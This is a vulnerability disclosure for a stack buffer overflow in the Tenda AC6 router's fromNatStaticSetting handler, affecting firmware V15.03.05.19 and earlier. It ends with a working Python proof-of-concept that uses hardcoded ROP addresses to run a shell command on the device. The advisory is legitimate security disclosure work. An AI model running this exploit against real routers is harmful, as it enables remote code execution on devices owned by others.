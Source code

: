 # Information

**Vendor of the products:**   Tenda

**Vendor's website:** [首页_腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:  **GuoHengyu(2183056014@qq.com)

**Affected products:** AC6 

**Affected firmware version:**  <=V15.03.05.19

**Firmware download address:** [AC6V1.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102681)

# Overview

A buffer overflow vulnerability exists in the `fromNatStaticSetting` function of the Tenda AC6 router. By sending a crafted HTTP request with a malicious `page` parameter, a remote attacker can trigger a stack overflow that leads to a segmentation fault. This may result in denial-of-service (DoS) or potentially allow further exploitation.



# Vulnerability details

The Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the fromNatStaticSetting function.

![image-20250519171204529](1/image-20250519171204529.png)

![image-20250519171357593](1/image-20250519171357593.png)



A stack-based buffer overflow vulnerability exists in the Tenda AC6 router due to the use of `sprintf(s, "nat_static.asp?page=%s", v6);` without proper bounds checking on the `page` parameter. If a crafted `page` argument longer than 0x120 bytes is supplied, it will overflow the destination buffer `s`, potentially resulting in a segmentation fault. A remote attacker can exploit this issue to cause denial of service or potentially achieve arbitrary code execution.



# POC

```python
import requests

from pwn import*
def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {'page': data}
    
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)

    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    target_url = "http://192.168.2.131/goform/NatStaticSetting"

    payload = b'a'*0xf4+p32(0x3ff32010)+b'a'*0x10+p32(0x3ff2aaf0)+p32(0x407ffa30)+p32(0x3ff3d108)
    payload += b'echo "hacked by pfwqdxwdd" > ./var/webroot/flag.txt'

    execute_overflow(target_url, payload)


```

![image-20250519172815912](1/6b24ef9df5c61050e7b80403df64943.png)


